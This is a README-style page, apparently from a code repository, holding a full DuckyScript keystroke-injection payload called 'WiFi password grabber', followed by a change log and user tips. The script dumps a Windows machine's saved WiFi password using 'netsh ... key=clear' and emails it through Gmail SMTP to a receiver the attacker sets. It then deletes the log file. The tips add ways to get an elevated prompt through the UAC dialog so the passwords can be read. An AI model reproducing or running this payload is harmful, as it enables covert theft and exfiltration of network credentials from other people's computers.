 ### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send the content of Log.txt to

## **Code**;
```
REM Title: WiFi password grabber
REM Author: Siem
REM Version: 4
REM Description: Saves the SSID, Network type, Authentication and the password to Log.txt and emails the contents of Log.txt from a gmail account.
DELAY 3000
REM --> Minimize all windows
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200
REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=:" %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set A=%A
ENTER
STRING set A="%A:~1%"
ENTER
REM --> Creating A.txt
STRING netsh wlan show profiles %A% key=clear | findstr /c:"Network type" /c:"Authentication" /c:"Key Content" | findstr /v "broadcast" | findstr /v "Radio">>A.txt
ENTER
REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" A.txt') do set B=%A
ENTER
REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" A.txt') do set C=%A
ENTER
REM --> Get password
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" A.txt') do set D=%A
ENTER
REM --> Delete A.txt
STRING del A.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```

### Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of Log.txt instead the file itself
4. Removed the space as delimiter
5. Added the STRING set A="%A:~1%" to be able to use SSID's with spaces as well

### Suggestions;
**If you have any suggestions, write them down here.**

- For me i needed to add a DELAY 50 betwin the powershell exit and the cmd exit.. (But i'm on an Arduino Mini with a special compiler)
- If the wifi ssid has a space like "TPLINK HOME" then A would be set to "TPLINK" and get error "Profile "TPLINK" is not found on the system" -- FIXED
- Added the delay after sending the SMTP message, to make sure the EXIT and DEL log.txt are executed (I had issues with this)

The cmd prompt must be elevated to get any passwords.  If you change from using the WINDOWS r to using the search menu for "cmd" and pressing ctrl+shift+enter you can get a UAC prompt.  From there you'd need to alt+Y to get the elevated prompt.

You can also use the run box but with the following command in Win7 and later:
powershell Start-Process cmd -Verb runAs
